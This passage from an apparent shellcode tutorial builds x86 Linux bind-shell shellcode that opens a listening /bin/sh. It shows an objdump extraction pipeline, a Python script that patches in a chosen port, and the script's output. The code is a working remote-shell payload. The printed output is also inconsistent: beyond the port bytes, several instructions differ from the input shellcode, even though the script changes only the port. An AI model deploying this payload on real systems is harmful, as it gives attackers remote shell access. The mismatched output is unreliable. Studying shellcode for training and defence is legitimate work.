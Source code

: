 Why ? Because our python script won't interpret our shellcode without this part.

We can easily do that by using the following objdump command:
```console
kali@kali:/tmp$ objdump -d ./bind_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x50\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x89\\xe1\\x89\\xea\\x29\\xe2\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc6\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\xb0\\x0b\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"
```

We can now add this shellcode to our python script. This script is pretty simple, it parses the 'shellcode' variable content, look for the '\\x11\\x5c' (which is 4444 in reverse hexadecimal) pattern and replace it by the port value asked by the user.

Here is the code:
```python
#!/usr/bin/python3

import sys
import socket

# shellcode used (default port: 4444)
shellcode = "\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x50\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x89\\xe1\\x89\\xea\\x29\\xe2\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc6\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\xb0\\x0b\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"

# Check if a port is specified
if len(sys.argv) < 2:
    print ('Usage: python {name} [port_to_bind]'.format(name = sys.argv[0]))
    print ('Example: python {name} 2222'.format(name = sys.argv[0]))
    exit(1)

# convert the port format from str to hex format
port = hex(socket.htons(int(sys.argv[1])))

# Replace port number
shellcode = shellcode.replace('\\x11\\x5c', '\\x{0}\\x{1}'.format(port[4:6],port[2:4]))

print(shellcode)
```

This script will give us the following result:
```console
kali@kali:/tmp$ chmod +x modify_bind_shell.py 
kali@kali:/tmp$ ./modify_bind_shell.py 2222
\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```
